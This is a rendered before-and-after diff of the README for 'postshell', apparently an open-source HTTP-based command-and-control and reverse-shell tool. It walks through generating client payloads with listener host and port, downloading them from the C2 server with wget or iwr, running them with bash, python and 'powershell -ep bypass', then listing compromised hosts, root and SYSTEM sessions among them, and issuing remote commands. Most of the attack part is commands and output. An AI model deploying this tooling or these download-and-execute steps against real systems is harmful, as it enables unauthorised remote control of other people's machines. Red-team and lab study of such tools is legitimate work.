

Before and after one commit to BwithE/postshell, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -31,51 +31,79 @@ git clone https://github.com/bwithe/postshell
 python3 postshell.py <port>
 ```
 
-2. Modify the following, then transfer a client.<script> to connect to the SERVER
-  - IP
-  - PORT
-  - WAITTIME
+2. Generate a Client script that creates a directory called "tools" with the scripts
+  - This server also allows GET requests from "tools"
+```
+postshell> payload
+payload> options
 
-3. Execute the script on the client
+Current Payload Options:
+
+  LHOST     : 127.0.0.1
+  LPORT     : 80
+  PAYLOAD   : sh
+  CHECKIN   : 1
+
+payload> set lhost 127.0.0.1
+[+] Set lhost to 127.0.0.1
+payload> set lport 80
+[+] Set lport to 80
+payload> set payload sh
+[+] Set payload to sh
+payload> set checkin 1
+[+] Set checkin to 1
+payload> generate
+[+] Payload generated and saved as tools/127_0_0_1_80.sh
 ```
-bash client.sh
+3. Transfer the client script
+```
+wget http://127.0.0.1:80/tools/127_0_0_1_80.sh
 
-python3 client.py
+wget http://127.0.0.1:80/tools/127_0_0_1_80.py
 
-powershell -ep bypass client.ps1
+iwr http://127.0.0.1:80/tools/127_0_0_1_80.ps1 -outfile 127_0_0_1_80.ps1
 ```
 
-4. To see active clients
+4. Execute the script on the client
+```
+bash 127_0_0_1_80.sh
+
+python3 127_0_0_1_80.py
+
+powershell -ep bypass 127_0_0_1_80.ps1
+```
+
+5. To see active clients
 ```
 postshell> list
 ╔════╦═════════════════╦═════════════════╦═════════╦════════════════╦══════════════════╦════════╗
 ║ ID ║ IP              ║ HOSTNAME        ║ USER    ║ OS             ║ VERSION          ║ ARCH   ║
 ╠════╬═════════════════╬═════════════════╬═════════╬════════════════╬══════════════════╬════════╣
-║ 1  ║ 192.168.193.131 ║ ubuntu          ║ ubuntu  ║ Linux          ║ 6.8.0-41-generic ║        ║
-║ 2  ║ 192.168.193.131 ║ ubuntu          ║ root    ║ Linux          ║ 6.8.0-41-generic ║        ║
+║ 1  ║ 192.168.193.131 ║ ubuntu          ║ clyde   ║ Linux          ║ 6.8.0-41-generic ║ x86_64 ║
+║ 2  ║ 192.168.193.131 ║ ubuntu          ║ root    ║ Linux          ║ 6.8.0-41-generic ║ x86_64 ║
 ║ 3  ║ 192.168.193.129 ║ DESKTOP-P5KACDB ║ jimothy ║ Windows 10 Pro ║ 10.0.19045       ║ 64-bit ║
 ║ 4  ║ 192.168.193.129 ║ DESKTOP-P5KACDB ║ system  ║ Windows 10 Pro ║ 10.0.19045       ║ 64-bit ║
 ╚════╩═════════════════╩═════════════════╩═════════╩════════════════╩══════════════════╩════════╝
 ```
 
-5. To connect to an active session
+6. To connect to an active session
 ```
 postshell> select 3
 [jimothy@DESKTOP-P5KACDB]>
 ```
 
-6. Execute commands, and wait for the client to GET the command, then POST the results
+7. Execute commands, and wait for the client to GET the command, then POST the results
 ```
 [jimothy@DESKTOP-P5KACDB]> pwd
 C:\Users\jimothy\Downloads
 ```
 
-7. To background a session
+8. To background a session
 ```
 [jimothy@DESKTOP-P5KACDB]> background
 ```
 
-8. To kill the current session
+9. To kill the current session
 ```
 [jimothy@DESKTOP-P5KACDB]> die
 ```
````
Also changed, not shown: other parts of README.md (+5 -5 lines).
